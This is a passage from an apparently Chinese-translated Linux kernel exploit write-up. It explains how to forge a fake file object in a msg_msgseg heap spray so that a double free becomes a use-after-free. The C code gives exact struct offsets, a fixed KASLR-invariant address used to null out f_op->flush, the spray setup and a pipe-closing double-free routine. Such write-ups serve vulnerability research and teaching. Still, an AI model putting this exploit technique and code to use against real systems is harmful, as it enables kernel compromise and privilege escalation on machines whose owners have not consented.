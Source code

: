 ```bash
    fput(filp);
    return retval;
}
```

正如我们所看到的，用全 NULL 覆盖文件对象会遇到三个障碍：

*   `file_count(filp)`将返回引用计数：0，从而导致`filp_close()`过早返回，
*   即使我们通过了第一个障碍，`filp->f_op`将为 NULL，因此在检查是否定义了`flush()`时，我们会导致内核崩溃，
*   最后，我们可能希望减少升级到`Use-After-Free`的复杂性，因此，我们希望在`filp->f_mode`中设置 FMODE\_PATH，  
    在这三个障碍中，将引用计数设置为 1 并将模式设置为`FMODE_PATH`很容易，我们只需要相对于覆盖我们的`msg_msgseg`的位置计算出文件中这些字段的偏移量，然后写入它们，但是确保`filp->f_op`被定义且`filp->f_op->flush`未定义需要更精细的技巧，这里的最小要求是我们有一个有效的内核指针用来替代`f_op`，此外，我们需要`flush()`为 NULL，这意味着`f_op + 0x70`必须为 NULL

```bash
/* We write this pointer to file->f_op so that f_op->flush == NULL.
 * This address and its contents are invariant across boots. */
#define NULL_MEM (0xfffffe0000002000)
```

尽管使用了 KASLR 和堆偏移随机化，但我们仍使用已知的固定地址，该地址在目标内核的所有执行期间都满足我们的需求，

```bash
static inline void set_file_spray_data(struct manager* mgr)
{

    /* Construct a fuzzy file object */
#define F_OP_OFF (88)
#define REF_OFF (128)
#define F_MODE_OFF (140)
#define MSGSEG_OFF (4000)

    memset((char *)mgr->spray, 0, MSG_SIZE);

    char *file_contents = (char *) mgr->spray + MSGSEG_OFF;
    uint8_t *f_op = file_contents + F_OP_OFF;
    uint8_t *refcount = file_contents + REF_OFF;
    uint8_t *f_mode = file_contents + F_MODE_OFF;

    *(uint64_t *) f_op = NULL_MEM;
    *(uint64_t *) refcount = 1;
    *(uint64_t *) f_mode = 0x4000;
}
```

因此，为了至少营造一个有效的文件对象的假象，我们准备好文件字段，如上所述，并像之前看到的那样将虚假的文件对象喷射到堆中，

```bash
static inline err_t double_free_file(struct manager *mgr, int32_t *hits)
{
    for (int i = 0; i < hits[N_PIPES]; i++) {
        int p_idx = hits[i];
        int in = mgr->pipes_in[p_idx][RD];
        close(in);
    }
    return SUCC;
}
```
